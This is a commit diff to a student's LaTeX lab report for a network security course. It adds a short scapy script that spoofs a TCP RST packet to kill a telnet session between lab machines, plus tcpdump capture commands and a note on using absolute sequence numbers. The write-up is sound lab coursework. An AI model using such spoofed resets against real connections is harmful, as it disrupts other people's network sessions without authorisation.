

Before and after one commit to Luna1996/WUSTL, a LaTeX document (571/L1/L1.tex): two parts of pages 1 and 2 of 2 before the commit and part of page 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with XeLaTeX.

Commit message:
YIFU WANG

```diff
--- a/571/L1/L1.tex
+++ b/571/L1/L1.tex
@@ -34,8 +34,32 @@ With \code{sudo tcpdump tcp and host 192.168.137.160}, I can capture all traffic
   By the way before the final "correct" out put, you can see there is several unsuccessful attempts. That is because I were attacking the wrong port.
   \item[$\bullet$]
-  Trying to use scapy to reproduce the same attacking on telnet and ssh connection.
+  Trying to use scapy to reproduce the same attacking on telnet and ssh connection. In order to do that, we need to capture the tcp traffic manually and spoof a RST request send to Server. Since I'm using pure command line mode due to the laggy GUI interface. I choose to using \code{tcpdump} on the Attacker to capture the traffic and create the \code{.cap} file inside the shared folder and observe the dumped traffic using wireshark in the host win10 machine. Followings are several command I used to conduct the attack and the python script code to spoof RST request.\\
+  Capture: \code{sudo tcpdump tcp and host 192.168.137.150 and 192.168.137.140}\\
+  Python:
+  \begin{tlist}{2}
+    \item[]
+    \code{
+\#!/usr/bin/pyton3\\
+from scapy.all import *
+\vspace{12pt}\\
+ip = IP(src="192.168.137.150", dst="192.168.137.140")\\
+tcp = TCP(sport=46176, dport=23, flags="R", seq=3375652917, ack=1837764021)\\
+pkt = ip/tcp\\
+ls(pkt)\\
+print(pkt)\\
+send(pkt, verbose=0)
+    }
+  \end{tlist}
+  Screenshot:
+  \href{https://i.loli.net/2018/09/12/5b9810585b7d3.png}{Attacker},
+  \href{https://i.loli.net/2018/09/12/5b98105863974.png}{Client},
+  \href{https://i.loli.net/2018/09/12/5b981058a7e99.png}{RST request}.\\
+  To be honest, I didn't successed at first time. In the first several try, I didn't noticed that the seq and ack number displayed in wireshark is quoted as "relative sequence number", and obviously I won't success with those relative value. So after I turn off the "Display relatively" in wireshark. I made it in one shoot.
 \end{tlist}
 
 \subsection{TCP RST Attacks on Video Streaming Applications}
+This task is essentially the same as the task 2, but with the GUI response. I shouldn't and didn't encounter any issure for this task.
+
 \subsection{TCP Session Hijacking}
+
 \end{document}
```
Also changed, not shown: 571/L1/L1.pdf, 571/L1/RST.png (added), 571/L1/attacker3.png (added), 571/L1/client4.png (added), 571/L1/L1.tex (2 more changed lines), 2 other files.
